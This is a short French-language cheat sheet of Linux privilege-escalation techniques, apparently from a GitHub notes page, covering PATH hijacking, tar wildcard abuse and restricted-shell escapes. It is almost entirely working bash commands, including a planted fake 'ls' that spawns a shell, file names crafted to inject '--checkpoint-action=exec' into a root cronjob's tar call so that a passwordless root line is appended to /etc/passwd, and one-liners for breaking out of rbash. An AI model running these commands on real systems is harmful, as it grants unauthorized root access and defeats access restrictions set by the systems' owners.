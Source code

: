 ### PATH Abuse
> Manipuler le PATH pour faire exécuter notre code malveillant au lieu des binaires légitimes
```bash
# Ajouter . au PATH
PATH=.:$PATH
export PATH

# Créer un binaire malveillant 
echo 'echo "PATH ABUSE!!"; /bin/bash' > ls
chmod +x ls
ls  # Execute notre code au lieu de la commande ls
```
### Wildcard Abuse
> Abuser des caractères jokers (*,?,[]) dans les scripts, souvent utilisés avec tar

```bash
# Exploiter un cronjob utilisant tar avec wildcard (*)
echo 'echo "root::" >> /etc/passwd' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
# Attendre que le cronjob s'exécute
```

### Restricted Shell Escape
> Techniques pour s'échapper d'un shell restreint (rbash, rksh, rzsh)

```bash
# Command substitution
ls -l `pwd`

# Command chaining
ls;/bin/bash

# Using environment variables
SHELL=/bin/bash exec /bin/bash

# Using shell functions
function() { /bin/bash; }; function
```

